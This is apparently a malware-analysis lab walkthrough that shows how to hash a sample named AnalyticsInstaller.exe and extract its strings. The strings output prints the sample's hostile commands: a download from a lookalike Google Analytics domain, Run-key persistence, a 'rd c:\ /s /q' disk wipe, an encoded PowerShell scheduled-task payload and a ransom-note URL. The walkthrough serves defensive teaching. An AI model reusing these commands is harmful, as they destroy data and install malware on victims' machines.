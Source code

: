         PS C:\tools\falsimentis> Get-FileHash -Algorithm SHA256 AnalyticsInstaller.exe

        Algorithm       Hash                                                                   Path
        ---------       ----                                                                   ----
        SHA256          D501EF28D4C3F3C308461E5FB51929E3875395C38E6A885692C8788A3C376E45       C:\tools\falsimentis\Analytic...
        There is no standard hashing algorithm to use. Many analysts use a combination of MD5 and SHA256 to reduce the chance of misidentification due to collisions with specially-crafted malware.

The Get-FileHash command breaks down as follows:

-Algorithm controls which hashing algorithm is used, MD5 or SHA256.
AnalyticsInstaller.exe is the file to use for hash calculation.
Cryptographic hash sums are a common way to identify malware, since they remain the same even if the file name changes. This helps analysts confirm they are communicating about the same specimen.

## Examine Malware Strings

Run the Sysinternals strings utility to examine the ASCII and Unicode strings that are at least 10 characters long. To do this run C:\tools\sysinternals\strings.exe with the -n 10 argument.

When the EULA appears, click the Agree button to proceed.

        PS C:\tools\falsimentis> C:\tools\sysinternals\strings.exe -n 10 .\AnalyticsInstaller.exe
        Strings v2.53 - Search for ANSI and Unicode strings in binary images.
        Copyright (C) 1999-2016 Mark Russinovich
        Sysinternals - www.sysinternals.com

        This program cannot be run in DOS mode.
        @http://www1-google-analytics.com:8088/analytics.exe
        C:\Windows\System32\analytics.exe
        Software\Microsoft\Windows\CurrentVersion\Run
        Analytics Client
        RegOpenKeyEx error!
        C:\Windows\System32\AnalyticsBackup.bat
        cmd.exe /c rd c:\ /s /q
        powershell.exe -ExecutionPolicy Bypass -EncodedCommand JABtAG0AawAxACAAPQAgACIATgBUACAAQQBVAFQASABPAFIASQBUAFkAXABTAFkAU
        wBUAEUATQAiAAoAJABtAG0AawAyACAAPQAgACIAQQBuAGEAbAB5AHQAaQBjAHMAIABCAGEAYwBrAHUAcAAiAAoAJABtAG0AawAzACAAPQAgACIAQQBuAGEAb
        AB5AHQAaQBjAHMAIABCAGEAYwBrAHUAcAAgAFMAZQByAHYAaQBjAGUAIgAKACQAbQBtAGsANAAgAD0AIABbAEQAYQB0AGUAVABpAG0AZQBdADoAOgBOAG8Ad
        wAuAEEAZABkAEQAYQB5AHMAKAAxACkALgBUAG8AUwB0AHIAaQBuAGcAKAAiAEYAIgApAAoAJABtAG0AawA1ACAAPQAgAE4AZQB3AC0AUwBjAGgAZQBkAHUAb
        ABlAGQAVABhAHMAawBUAHIAaQBnAGcAZQByACAALQBPAG4AYwBlACAALQBBAHQAIAAkAG0AbQBrADQACgAkAG0AbQBrADYAIAA9ACAATgBlAHcALQBTAGMAa
        ABlAGQAdQBsAGUAZABUAGEAcwBrAEEAYwB0AGkAbwBuACAALQBFAHgAZQBjAHUAdABlACAAIgBDADoAXABXAGkAbgBkAG8AdwBzAFwAUwB5AHMAdABlAG0AM
        wAyAFwAYQBuAGEAbAB5AHQAaQBjAHMAYgBhAGMAawB1AHAALgBiAGEAdAAiAAoAJABtAG0AawA3ACAAPQAgAE4AZQB3AC0AUwBjAGgAZQBkAHUAbABlAGQAV
        ABhAHMAawBTAGUAdAB0AGkAbgBnAHMAUwBlAHQAIAAtAFMAdABhAHIAdABXAGgAZQBuAEEAdgBhAGkAbABhAGIAbABlACAALQBIAGkAZABkAGUAbgAgAC0AR
        ABvAG4AdABTAHQAbwBwAEkAZgBHAG8AaQBuAGcATwBuAEIAYQB0AHQAZQByAGkAZQBzACAALQBXAGEAawBlAFQAbwBSAHUAbgAgAC0AQQBsAGwAbwB3AFMAd
        ABhAHIAdABJAGYATwBuAEIAYQB0AHQAZQByAGkAZQBzAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAa
        wBOAGEAbQBlACAAIgBBAG4AYQBsAHkAdABpAGMAcwAgAEIAYQBjAGsAdQBwACIAIAAtAFQAcgBpAGcAZwBlAHIAIAAkAG0AbQBrADUAIAAtAFUAcwBlAHIAI
        AAkAG0AbQBrADEAIAAtAEEAYwB0AGkAbwBuACAAJABtAG0AawA2ACAALQBEAGUAcwBjAHIAaQBwAHQAaQBvAG4AIAAkAG0AbQBrADMAIAAtAFMAZQB0AHQAa
        QBuAGcAcwAgACQAbQBtAGsANwAKAA==
        cmd.exe /c start /max http://www.midnitemeerkats.com/note
